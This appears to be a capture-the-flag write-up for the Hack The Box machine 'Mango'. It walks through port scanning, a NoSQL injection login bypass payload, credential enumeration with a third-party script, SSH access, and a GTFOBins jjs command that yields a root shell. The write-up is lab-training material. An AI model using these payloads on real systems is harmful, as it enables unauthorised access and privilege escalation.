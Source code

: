 # Mango

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.1.219 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-04 09:22 EDT
Nmap scan report for 10.129.1.219
Host is up (0.012s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

### Port 443

Port 80 straight up denies me, and when we head to port 443 we see that this is some type of search engine:

<figure><img src="../../../.gitbook/assets/image (15) (6).png" alt=""><figcaption></figcaption></figure>

When we view the certificate, we see that there's another domain present:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

We can enumerate that instead, because why would they hide it if testing for SSRF wasn't a rabbit hole?

### NoSQL Injection

The HTTPS site had nothing for that domain, but the HTTP site revealed a login page:

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

From reading the box name, it was obviously related to exploiting MongoDB, which does not use SQL (otherwise called NoSQL). This login page might be vulnerable to NoSQL injection. I tried this payload:

```
username[$ne]=toto&password[$ne]=toto
```

When examining requests in Burp, I found that the NoSQL Injection returned a 302.

<figure><img src="../../../.gitbook/assets/image (42) (7).png" alt=""><figcaption></figcaption></figure>

While the regular request returned a 200.&#x20;

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

This to me was a clear indication that NoSQL Injection was the path here. I used a script I found on Github to find the rest:

{% embed url="https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration/blob/master/nosqli-user-pass-enum.py" %}

We can first verify the usernames:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

This also confirms that it works and it finds 2 users, `mango` and `admin`. Then, we can find the passwords:

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

Then, we can use one of the passwords to SSH in:

<figure><img src="../../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

We can also `su` to `admin` using the other password.

<figure><img src="../../../.gitbook/assets/image (7) (4).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JJS SUID

I ran LinPEAS for to enumerate. Within the output, I found one SGID binary.

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

We can run `jjs` to get a `root` shell. All we need to do is follow what is written on GTFOBins:

{% code overflow="wrap" %}
```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Rooted!

